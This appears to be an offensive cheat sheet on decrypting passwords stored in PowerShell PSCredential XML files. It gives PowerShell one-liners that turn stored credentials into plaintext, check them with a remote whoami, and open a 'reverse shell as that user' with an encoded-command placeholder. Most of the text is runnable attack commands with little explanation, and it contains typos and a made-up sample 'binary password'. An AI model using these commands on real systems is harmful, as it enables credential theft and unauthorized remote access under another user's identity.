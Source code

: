 # Decode the Xml password 
PSCredential XML Decryption is the process of extracting and converting securely stored credentials from serialized PowerShell objects in XML format back to plaintext authentication tokens.
```language
If the file contain the binary password, like this :- 0101919310841001837146106741741069169491893010101100101001010010010110100101016471551646101808181838
```
# You can Decrypt it using the Powershell Manuall and Automate Ways:-

# (1) Manuall Way
Make sure you paste the write Encoded password and username.
```language
$pwd = ConvertTo-SecureString  <encoded password>
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList "user_name",$pwd    # Grap the username from the xml file.
$cred.GetNetworkCredential().password
```
# (2) Manuall Way
```language
$secureString = ConvertTo-SecureString "<encrypted_binary>"
$credential = New-Object PSCredential("username", $secureString)
$plainTextPassword = $credential.GetNetworkCredential().Password
```
# > Automate Way
```language
(Import-Clixml "C:\Path\To\Your\connection.xml").GetNetworkCredential().Password
```
# > Verify it
```language
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { whoami } 2>&1
```
# > Reverse shell as that user
```language
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock { powershell -enc <encoded code here> } 2>&1
```
